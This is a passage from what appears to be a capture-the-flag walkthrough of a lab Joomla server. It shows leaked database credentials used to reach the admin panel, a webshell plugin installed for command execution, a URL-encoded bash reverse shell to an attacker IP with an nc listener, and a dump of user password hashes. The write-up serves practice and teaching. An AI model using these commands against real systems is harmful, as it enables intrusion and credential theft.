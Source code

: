 This leaked MySQL credentials (`lewis:P4ntherg0t1n5r3c0n##`) and user details.

### Admin Panel Login

Using the leaked credentials, login to `http://dev.devvortex.htb/administrator/` was successful as user 'lewis' (Super User). The admin dashboard allows managing extensions, templates, and content.

### Remote Code Execution via Malicious Extension

A quick search for Joomla RCE methods revealed a GitHub repository for a webshell plugin: https://github.com/p0dalirius/Joomla-webshell-plugin.

- Cloned the repository and packaged it as a Joomla extension (ZIP).
- In the admin panel, navigated to System > Install > Extensions and uploaded the ZIP.
- Enabled the plugin under System > Plugins.

The webshell was accessible at `http://dev.devvortex.htb/modules/mod_webshell/mod_webshell.php?action=exec&cmd=id`, returning:

```json
{"stdout":"uid=33(www-data) gid=33(www-data) groups=33(www-data)\n","stderr":"","exec":"id"}
```

This confirmed command execution as www-data.

### Reverse Shell

Initial reverse shell attempts failed due to URL parsing issues. URL-encoding the payload succeeded:

```bash
http://dev.devvortex.htb/modules/mod_webshell/mod_webshell.php?action=exec&cmd=bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.16.60%2F1234%200%3E%261%27
```

With a listener (`nc -lvnp 1234`), a shell as www-data was obtained. Upgraded for stability:

```bash
script /dev/null -c bash
```

---

## Lateral Movement & User Flag

As www-data, connected to the MySQL database using leaked credentials:

```bash
mysql -u lewis -p'P4ntherg0t1n5r3c0n##' joomla
show tables;
select name,username,password from sd4fg_users;
```

**Results:**

- logan paul | logan | logan@devvortex.htb | `$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12`

